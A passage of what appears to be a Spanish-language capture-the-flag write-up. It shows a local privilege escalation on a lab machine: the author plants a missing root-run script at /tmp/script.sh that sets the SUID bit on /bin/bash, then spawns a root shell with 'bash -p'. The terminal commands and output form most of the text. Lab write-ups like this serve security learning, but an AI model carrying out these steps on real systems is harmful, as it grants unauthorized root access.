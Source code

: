 El script `/tmp/script.sh` se ejecuta con privilegios de `root` y no existe en el sistema, lo que me permite crearlo con contenido malicioso. Para aprovechar esto, lo configuro para establecer el bit SUID en `/bin/bash`, lo que permitirá ejecutar Bash con privilegios elevados.

```terminal
www-data@kali:/var/www/cinema.dl/andrewgarfield$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

```terminal
www-data@kali:/var/www/cinema.dl/andrewgarfield$ echo 'chmod u+s /bin/bash' > /tmp/script.sh
www-data@kali:/var/www/cinema.dl/andrewgarfield$ chmod u+x /tmp/script.sh
```

Monitoreo los permisos de `/bin/bash` hasta que el bit SUID se activa.

```terminal
www-data@kali:/var/www/cinema.dl/andrewgarfield$ watch -d ls -al /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Finalmente, ejecuto Bash en modo privilegiado para obtener acceso como `root`.

```terminal
www-data@kali:/var/www/cinema.dl/andrewgarfield$ bash -p

bash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```
